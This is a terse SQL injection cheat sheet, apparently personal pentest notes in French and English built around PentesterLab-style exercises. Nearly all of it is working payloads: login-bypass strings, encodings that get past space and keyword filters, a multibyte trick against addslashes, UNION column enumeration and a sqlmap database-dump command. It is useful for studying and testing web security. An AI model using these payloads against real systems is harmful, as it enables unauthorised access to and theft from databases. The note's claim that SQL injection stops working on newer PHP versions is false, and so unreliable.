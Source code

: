 # SQLi : SQL Injection


````sql
SELECT * FROM user WHERE login='[USER]' and password='[PASSWORD]';
````
````
http://12.0.0.11/sqli/example1.php?name=root' or '1'='1
http://12.0.0.11/sqli/example1.php?name=root' or '1'=1’
http://12.0.0.11/sqli/example1.php?name=root’ or 1=1-- -
http://12.0.0.11/sqli/example1.php?name=root%27%20or%20%271%27=%271
````

-- ou #
a' or 1=1 #

Test sur nb de result>1
a' or 1=1 LIMIT 1 #

No space in field: replace by tab %09 in PRoxy
username=admin%27%09or%091%3D1%09--%09&password=admin
Dans le Proxy : username=a'or'1'='1'#&password=b
Pas d’espace i de tab

By pass php funtion ‘addslashes’ use to insert strings in mysql requests
Dans le proxy use Chinese charset %bf%27  to set a ‘
username=a%bf%27+or+1=1+#&password=b


SQL Injection won't work on PHP >= v5.2.6.
Unless php tuned for
<IfModule mod_php5.c>
    magic_quotes_gpc = Off
    allow_url_fopen = On
    allow_url_include = On
</IfModule>


Utilisation avec sqlmap:
Url: http://f4l13n5n0w.github.io/blog/2015/05/22/pentesterlab-web-for-pentester-sql-injection/
http://10.10.10.129/sqli/example1.php?name=root' or 1=1-- -
=> sqlmap -u "http://10.10.10.129/sqli/example1.php?name=root" --dbs --banner
Filtrage sur les Espaces -> newlines %A0, utiliser des \t TAB %90 , utiliser /**/
http://12.0.0.11/sqli/example2.php?name=root%27%A0or%A01=1--%A0-

Filter sur AND ou OR, les remplacer par
 AND :   &&   %26%26 
OR  :  || 

Filter with : mysql_real_escape_string
$iId = mysql_real_escape_string("1 OR 1=1");
http://12.0.0.11/sqli/example4.php?id=2 OR  1=1


Use Union
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2
http://ptl-544ad5ad-8438986c.libcurl.so/cat.php?id=1 or 1=1 UNION SELECT 1,2,3,4
Identify number of fields in select: here 1,2,3,4 doesn’t generate error
